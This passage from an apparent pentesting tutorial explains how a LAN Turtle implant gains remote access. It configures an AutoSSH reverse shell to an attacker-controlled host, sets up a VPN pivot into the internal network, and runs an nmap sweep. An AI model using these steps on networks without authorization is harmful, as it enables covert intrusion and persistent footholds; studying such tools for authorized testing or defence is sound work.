 #### Remote Access
The LAN Turtle is often used for establishing a remote access foothold. One of its key features is the ability to automatically create a reverse shell to an external server for persistent access.

1. AutoSSH Module (Reverse Shell):
   - This module allows the LAN Turtle to create an SSH tunnel to a remote server, enabling remote access to the internal network from outside.
   - Configuring AutoSSH:
     ```bash
     turtle# autossh
     Enter remote host IP: <attack_ip>
     Enter remote host port: <attack_port>
     Enter remote host username: <username>
     Enter the local port to bind reverse shell to (optional): <local_port>
     ```
   - Example:
     ```bash
     autossh
     Enter remote host IP: 10.10.10.1
     Enter remote host port: 22
     Enter remote host username: root
     Enter the local port to bind reverse shell to (optional): 8080
     ```
   - This sets up a reverse SSH connection from the LAN Turtle to an external server.

2. VPN Pivot:
   The LAN Turtle can also be used as a VPN client to create an encrypted tunnel to a remote VPN server, allowing for pivoting into the internal network.
   - You can configure the VPN settings using OpenVPN, or the VPN Client module provided by the Turtle.
   - Example:
     ```bash
     turtle# vpnclient
     Enter VPN server IP: <vpn_server_ip>
     Enter VPN credentials: <username> / <password>
     ```

# LAN Turtle Modules

One of the most powerful aspects of the LAN Turtle is its modular framework. It comes with a variety of pre-installed modules that are designed for specific tasks like network reconnaissance, MITM, or remote access.

#### Basic Commands
```bash
turtle# ifconfig  # View network interfaces
turtle# ps        # View running processes
turtle# ls /mnt   # Access USB storage
```

#### Popular Modules
1. nmap:
   - The `nmap` module allows you to scan the local network.
   - Example usage:
     ```bash
     turtle# nmap -sP 192.168.1.0/24
     ```
